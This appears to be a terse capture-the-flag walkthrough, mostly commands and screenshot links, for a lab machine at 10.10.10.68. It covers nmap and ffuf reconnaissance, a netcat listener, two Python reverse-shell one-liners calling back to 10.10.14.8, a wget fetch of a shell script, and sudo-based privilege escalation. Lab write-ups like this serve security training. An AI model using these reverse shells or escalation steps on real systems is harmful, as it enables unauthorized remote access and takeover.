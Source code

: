 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.68
```
![image](https://user-images.githubusercontent.com/33616880/231078057-77c3fa36-7209-4521-8619-dacbe002e5e0.png)


![image](https://user-images.githubusercontent.com/33616880/231078885-d693a7c8-64c3-4d4d-8792-30f38a714312.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231078144-85f18b51-a11c-4111-8827-4e1957812732.png)


![image](https://user-images.githubusercontent.com/33616880/231079195-c3821e9c-f4e0-45b6-944d-696a708a6df7.png)


https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux


```
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)


```
sudo -l
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
```
sudo -u scriptmanager bash -i
```
![image](https://user-images.githubusercontent.com/33616880/231083178-a2ff7d4c-fbbf-4701-885e-399f0a2bd732.png)
![image](https://user-images.githubusercontent.com/33616880/231083338-54eabf9e-3306-488f-800c-b2ac046a8175.png)

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
```
wget 10.10.14.8/shell.py
```
![image](https://user-images.githubusercontent.com/33616880/231084808-1b28d08b-1c89-46bd-9d76-3770e62233fc.png)
